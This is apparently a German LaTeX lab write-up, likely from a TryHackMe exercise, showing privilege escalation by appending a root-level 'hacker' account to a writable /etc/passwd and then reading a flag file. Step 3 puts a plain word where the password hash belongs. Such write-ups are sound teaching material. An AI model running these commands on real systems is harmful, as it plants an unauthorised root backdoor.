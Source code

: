 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] \textit{openssl passwd -1 -salt THM password1}  in die Kommandozeile eingeben, um den hash-Wert für das Passwort des neuen Nutzers zu erzeugen.
        \item[2.] \textit{nano /etc/passwd}  in die Kommandozeile eingeben, um die /etc/passwd Datei im Texteditor nano zu öffnen.
        \item[3.] \textit{hacker:PasswortAus1:0:0:root:/root:/bin/bash}  als neue Zeile einfügen, um einen neuen root Nutzer names Hacker zu erzeugen.
                Wichtig ist die Verwendung von :/root:/bin/bash um einen root Nutzer zu erzeugen.
        \item[4.] Die Datei schließen und vorgenommene Änderungen speichern.
        \item[5.] \textit{su hacker} in die Kommandozeile eingeben, um den Nutzer zu wechseln.
        \item[6.] \textit{cat SuperSecretFile.txt} in die Kommandozeile eingeben, um den Inhalt der Datei zu sehen.
        \item[7.] \textbf{Alternativ} kann nach Schritt 1. eine neue Zeile mittels echo Befehl in die /etc/passwd Datei eingefügt werden: \textit{echo 'hacker:'\$1\$THM\$tYgpU9xzsOZ98alD7sjt70':0:0:root:/root:/bin/bash' >> /etc/passwd}
    \end{enumerate}

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserReadFlag}
        \caption{Neuen root Nutzer mittels Nano hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen.}
        \label{fig:privilegeEscalation1Screenshot1}
    \end{figure}
    \noindent

    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/addUserVersion2}
        \caption{Neuen root Nutzer mittels echo hinzufügen und den Inhalt der SuperSecretFlag.txt auslesen. Da das Terminal teils immer noch instabil ist, wird die Zeile falsch dargestellt. Eingegeben wurde der in Schritt 7. angegebene echo Befehl.}
        \label{fig:privilegeEscalation1Screenshot2}
    \end{figure}
    \noindent
\end{document}
